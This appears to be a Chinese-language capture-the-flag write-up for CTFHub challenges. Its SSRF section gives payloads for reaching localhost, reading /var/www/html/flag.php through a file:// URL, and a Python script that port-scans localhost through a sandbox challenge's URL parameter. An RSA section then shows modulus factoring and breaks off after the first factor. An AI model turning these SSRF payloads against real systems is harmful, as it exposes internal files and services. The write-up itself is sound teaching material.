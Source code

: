 

### 08 ssrf之内网访问

直接在url上=127.0.0.1/flag.php

### 09 ssrf之伪协议读取文件

让在web目录，根据经验php的web目录路径为：/var/www/html/

构造payload:

```url
?url=file:///var/www/html/flag.php
```

### 10 ssrf之端口扫描

```python
import requests
url="http://challenge-e35db79659317cae.sandbox.ctfhub.com:10800/?url=127.0.0.1:8000"
for index in range(8000,9001):
  url_1= f"http://challenge-e35db79659317cae.sandbox.ctfhub.com:10800/?url=127.0.0.1:{index}"
  res = requests.get(url_1)
  print(index,res.text)
```

# 密码

## 01题 What's RSA？:

拥有私钥时：

在kali中输入命令

<img src="https://img1.imgtp.com/2023/09/03/WPnUEM6v.png" alt="9109331575293a3e7d98246a9fa6d09" style="zoom:50%;" />

## 02题 RSA2：

当拥有公钥时：

首先从公钥中获取e和m

<img src="https://img1.imgtp.com/2023/09/03/09t9398N.png" alt="66e44afaf54afdf3fbc9561b4623676" style="zoom:50%;" />

将16进制m进行转换

<img src="https://img1.imgtp.com/2023/09/03/JsKSJCN8.png" alt="4748f7702c1a3547d377fdf9b76fb8a" style="zoom:50%;" />

利用http://factordb.com/进行拆解，得出p,q

![image-20230723004645846](https://img1.imgtp.com/2023/09/03/UMeatThD.png)

p= [275127860351348928173285174381581152299](http://factordb.com/index.php?id=1100000000836631227)
